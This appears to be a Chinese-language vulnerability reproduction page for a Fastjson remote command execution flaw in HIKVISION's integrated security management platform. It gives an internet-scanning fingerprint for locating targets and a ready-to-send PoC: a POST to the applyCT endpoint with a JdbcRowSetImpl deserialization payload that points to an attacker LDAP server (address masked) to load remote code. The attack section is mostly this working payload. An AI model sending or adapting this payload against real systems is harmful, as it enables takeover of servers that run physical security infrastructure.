 # HIKVISION 综合安防管理平台 applyCT Fastjson远程命令执行漏洞

# HIKVISION 综合安防管理平台 applyCT Fastjson远程命令执行漏洞

## 漏洞描述

HIKVISION 综合安防管理平台 applyCT 存在低版本Fastjson远程命令执行漏洞，攻击者通过漏洞可以执行任意命令获取服务器权限

## 漏洞影响

```
HIKVISION 综合安防管理平台
```

## 网络测绘

```
app="HIKVISION-综合安防管理平台"
```

## 漏洞复现

登录页面

![image-20220824134144287](/images/202208241341481.png)

验证POC

```
POST /bic/ssoService/v1/applyCT 
Content-Type: application/json

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.xxx.xxx.xxx/Basic/TomcatEcho","autoCommit":true},"hfe4zyyzldp":"="}
```

![image-20220824134503675](/images/202208241345726.png)

